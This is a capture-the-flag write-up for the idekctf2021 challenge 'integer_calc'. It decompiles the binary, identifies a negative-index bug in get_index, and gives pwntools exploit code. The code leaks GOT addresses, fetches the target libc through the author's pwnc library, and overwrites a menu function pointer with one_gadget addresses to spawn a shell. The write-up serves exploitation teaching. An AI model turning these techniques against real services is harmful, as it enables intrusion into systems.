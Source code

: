 # integer\_calc

## Tags

- x86-64
- pwnc
- idekctf2021
- type confusion
- integer overflow

## Intro

This is a challenge from idekctf2021. It's a type confusion mixed with integer
overflow vulnerability. It's a very simple challenge that I use to show off my
library [pwnc](https://github.com/jhilbs3/pwnc).

## Analysis

Let's see what protections we are dealing with

    $ checksec integer_calc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

`NX`, `PIE`, and `Partial RELRO`. Now we need to examine the binary to figure
out where the bugs are. When you first run `integer_calc` you are presented
with a menu that looks like

    $ ./integer_calc
    Welcome to my arithmetic calculator!
    0) store number
    1) remove number
    2) add two numbers
    3) subtract two numbers
    4) multiply two numbers
    5) divide two numbers
    6) exit
    > 

Challenges with menus like this usually allow some combination to trigger a 
leak and another combination of options to trigger code execution. Because of
`PIE` and `ASLR` we will almost certainly need a leak. Loading the program into
`ghidra` we can see how it really works. The menu options are function pointers
stored in `rw-` memory.

    void main(void)

    {
      uint uVar1;

      puts("Welcome to my arithmetic calculator!");
      do {
        uVar1 = menu();
        (*(code *)operations[uVar1])();
      } while( true );
    }

This is supposed to be a calculator that can save numbers for later use. It
stores numbers in an array in `rw-` memory. This is the function used to read
the desired index from the user

    int get_index(void)

    {
      int local_c;

      printf("index: ");
      __isoc99_scanf("%d",&local_c);
                        /* BUG: Index can be negative */
      if (0x20 < local_c) {
        puts("Invalid index");
                        /* WARNING: Subroutine does not return */
        exit(-1);
      }
      return local_c;
    }

The method only tests to see if a signed integer index is greater than the max
number of stored values. We can send a negative value to bypass this check. The
store method shows us how can we harness this vulnerability into a very useful
relative write primitive

    void store(void)

    {
      undefined8 local_18;
      uint index;

      index = get_index();
      printf("value: ");
      __isoc99_scanf("%lu",&local_18);
                        /* BUG: Index can be negative */
      numbers[(int)index] = local_18;
      printf("Number %lu stored at index %d successfully\n",local_18,(ulong)index);
      return;
    }

We can store an `unsigned long` at any location before our number array.
Looking at the memory in `ghidra` we can see that the `GOT` and the 
`operations` function pointer array are both before the `numbers` array.
Execution control is now solved but we still don't know where anything is in
memory. The `add` function solves that mystery for us

    void add(void)

    {
      int iVar1;
      int iVar2;

      printf("First number\'s ");
      iVar1 = get_index();
      printf("Second number\'s ");
      iVar2 = get_index();
      printf("Addition result: %lu\n",numbers[iVar2] + numbers[iVar1]);
      return;
    }

We can harness a relative read with the type confusion vulnerability we found
in `get_index`. We will store `0` somewhere and add that index to any desired
negative offset of the `numbers` array. These two primitives are enough to get
a shell.

## Solution

First we will need to find the location of `libc` in memory. To do this we use
our relative read primitive described above to leak addresses from the `GOT`.

    puts = leak(elf.got.puts)                                                   
    log.info(f"puts addr = {hex(puts)}")                                        
                                                                                     
    printf = leak(elf.got.printf)                                               
    log.info(f"printf addr = {hex(printf)}")

The creators of this challenge didn't provide the targets libc but thats no 
issue because I wrote a library that will help us here.
[pwnc](https://github.com/jhilbs3/pwnc) uses leaked symbol offsets to query
[libc-database](https://libc.rip/) for a known libc. If successful we will be 
presented with the exact libc binary that is running on our target. `pwnc` can
be `pip` installed with

    pip3 install pwnc

We will use our previously leaked addresses to obtain a bytestream that is the
target's `libc`

    log.info(f"Attempting to download libc...")                                 
    try:                                                                        
        libc_bytes = pwnc.get_libc(addrs)                                       
    except pwnc.PWNCResponseError as e:                                         
        log.error(f"bad connection to database or libc does not exist: {e}")    
        return 1 

With `libc` in hand we can now write an exploit that should work **regardless
of where the target binary is running**. This means we can write one exploit
that will run against our local `libc` and the targets without issue. I wanted
to take this exploit to full shellcode execution but it ended up being a very
annoying hassle. Instead we will loop over glibc one\_gadgets obtained via
this python library [one\_gadget](https://pypi.org/project/one-gadget). With
`libc` already leaked we will do the following

1. loop over one\_gadgets
2. calculate the address by leaking `puts@got` and adding gadget offset
3. write address of gadget to `operations[divide]`
4. send b"5\n"
5. if our connection stays alive we should have a shell

That looks like

    log.info(f"Looping over one gadgets from glibc...")
    with tempfile.NamedTemporaryFile() as fd:
        fd.write(libc_bytes)
        libc = ELF(fd.name) 
        
        first = True

        for offset in generate_one_gadget(fd.name):
            log.info(f"trying offset {offset}")

            # to allow us to use our first connection
            if(not first):
                if(args.live):
                    r = remote(args.ip, args.port)
                else:
                    r = process(binary_name)

            first = False
            
            # need 0 to leak with add method
            store(0, elf.sym.numbers)

            # get libc address since new process
            puts = leak(elf.got.puts)
            libc.address = puts - libc.sym.puts

            # write one_gadget to divide menu option and trigger it
            store(libc.address + offset, elf.sym.operations + (5*8))
            try:
                r.sendline(b"5")

                r.sendline(b"id")
                results = r.recvline()
                if(b"uid" in results):
                    log.success("Shell acquired ;)")
                    r.interactive()
                r.close()
                return 0
            except:
                log.warn(f"Failed with offset {offset}")
                continue
    return 1

Checkout `solve.py` for the solution.
